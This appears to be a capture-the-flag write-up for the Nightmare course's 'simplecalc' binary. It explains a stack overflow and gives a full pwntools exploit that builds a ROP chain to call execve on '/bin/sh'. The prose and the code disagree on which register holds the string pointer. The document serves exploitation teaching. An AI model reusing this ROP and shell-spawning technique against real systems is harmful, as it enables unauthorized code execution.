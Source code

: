 ```yaml
---
title: Nigtmare (module 7 simplecalc)
author: megachar0x01
date: 2021-06-28
categories: [Binary Exploitation, nightmare]

---
```



Let's start reversing it with the main function first we see that a value is taken which is stored in the no_loops variable ( Int )  then it is used to create a loop, used as a size for allocating memory on the heap, and also use to control how much memory is to be copied from  heap to stack  then input is taken from user to select what type of function is to be executed (1. addition, 2. subtraction, 3. multiplication, 4. division and 5. copy memory from heap to stack ) after the loop is completely free is used to free up heap memory and program exits

<img src="https://i.imgur.com/MIHUwNT.png" alt="image_1">



##### Add function

In Add function, we can see that it takes 2 input and then store it in a global variable and then check if it is greater than 39 then it will add two values and store them in a third global variable, and then the exit function and if it is smaller than 39 than prints a msg and exit without doing anything

<img src="https://i.imgur.com/bd704CK.png" alt="image_2">


Rest of the function doing as the name suggests sub,mul, and divide but with the same restrictions as add function (check the value if its greater than 39)

Now we have a general view of the program let's start working on getting shell

The first vuln I can find is that the stack has limited space ( 40 bytes ) and the number of bytes to be copied is controlled by the user


**no_loops is controlled by user**

<img src="https://i.imgur.com/NmOuNTd.png" alt="img_3">




Now its time to fill the heap with values like its stack (because it will be placed on the stack ) for that we see that after the calculation function ( add, sub, mul, div) we can see that the global value is placed on the heap every time on a different address (because of for_loop multiplying by the address which is incrementing the address value )

Now its time to start working on the exploit first we start by padding . One important thing we will do is overwrite the heap pointer which will be used by the free function to free memory to bypass we will add that variable with "zero" so the free function closes without error and rest of padding till we control instruction pointer rest of is simple creating rope chain.


Now for rop chain our goal is to get shell so we can use sys_execv syscall (man execv ) to call "/bin/sh" for that we have to put the string "/bin/sh" in memory then put the memory pointer to rsi register we can put "0x0" in rest of register (rdi,rdx) and then put "0x3b" (which is number of sys_execv)   in rax and call syscall rop gadget and  u got a shell on the system (THis was the second-best challenge after sandbox escape )

```python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+518
continue
'''.format(**locals())

# break *0x0000000000401545



exe = "./simplecalc" ; elf = context.binary=ELF(exe,checksec=False)

rop= ROP(exe,checksec=False)

def menu(menu_no,menu_x,menu_y):
    io.sendlineafter(b"=>",menu_no)
    io.sendlineafter(b"Integer x: ",menu_x)
    io.sendlineafter(b"Integer y: ",menu_y)
    io.recvline()

def zero ():
    menu(b"2",b"2000",b"2000")

def format_f(fromat_value):
    x = int(fromat_value) - 50000
    menu(b"1",str(x),b"50000")
    zero()

def padd ():
    for x in range(18):
        zero()

#### ROP #############
mov_ptr_rax_rdx_ret = 0x000000000044526e # mov qword ptr [rax], rdx; ret; 
pop_rdi = 0x0000000000401b73
pop_rdx = 0x0000000000437a85
pop_rax = 0x000000000044db34
pop_rsi = 0x0000000000401c87
syscall = 0x00000000004648e5
bin_var = 0x6e69622f
sh_var = 0x68732f


######################


io = start ()

io.sendlineafter(b"Expected number of calculations: ",b"150")

padd ()
format_f(pop_rdx)
format_f(bin_var)
format_f(pop_rax)
format_f(0x6c0008)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rax)
format_f(0x6c000c)
format_f(pop_rdx)
format_f(sh_var)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rdi)
format_f(0x6c0008)
format_f(pop_rsi)
format_f(0x0)
format_f(pop_rdx)
format_f(0x0)
format_f(pop_rax)
format_f(0x3b)
format_f(syscall)


io.sendlineafter(b"=>",b"5")
io.interactive()
```


[![asciicast](https://asciinema.org/a/504622.svg)](https://asciinema.org/a/504622)
